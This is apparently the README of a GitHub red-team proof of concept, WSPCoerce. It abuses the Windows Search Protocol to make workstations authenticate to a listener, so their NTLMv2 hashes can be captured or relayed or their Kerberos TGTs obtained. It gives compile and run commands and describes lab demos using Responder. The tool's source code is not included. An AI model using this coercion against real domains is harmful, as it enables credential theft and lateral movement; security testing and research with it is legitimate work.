




# WSPCoerce

PoC to coerce authentication from Windows hosts using MS-WSP

## What is this?

It's a tool to interact with remote hosts using the Windows Search Protocol and coerce authentication. The target host will connect over SMB to the listener host using the machine account.

## What can I do with this?

- Relay the authentication from the target to another system (if SMB signing is disabled)
- Obtain the TGT of the target (if coercing to a system where unconstrained delegation is enabled)

## What are the requirements?

- Must be running in the context of a domain user (no specific privileges required on target system AFAIK)
- 445/TCP open on the target system
- 445/TCP open on the listener system
- Windows Search Service running on the target system

Note: The Windows Search Service is *NOT* enabled by default on Windows Server so in practice this attack is only effective against Windows workstations.

## How do I compile this?

```
c:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe WSPCoerce.cs
```

## How do I run this?

```
WSPCoerce.exe <target> <listener>
```

Notes:
- Can't use an IP address for the target
- Make sure to use a hostname or FQDN for the listener if you want to receive Kerberos auth

## Example demo 1 - Machine account NTLMv2 capture

- Target: LABWS1
- Listener: Kali box

Search request sent to LABWS1:



NTLMv2 captured on Responder:



## Example demo 2 - Coercion to unconstrained delegation

- Target: LABWS1
- Listener: LABSRV1

Search request sent to LABWS1:



Kerberos TGT on listener (LABSRV1):



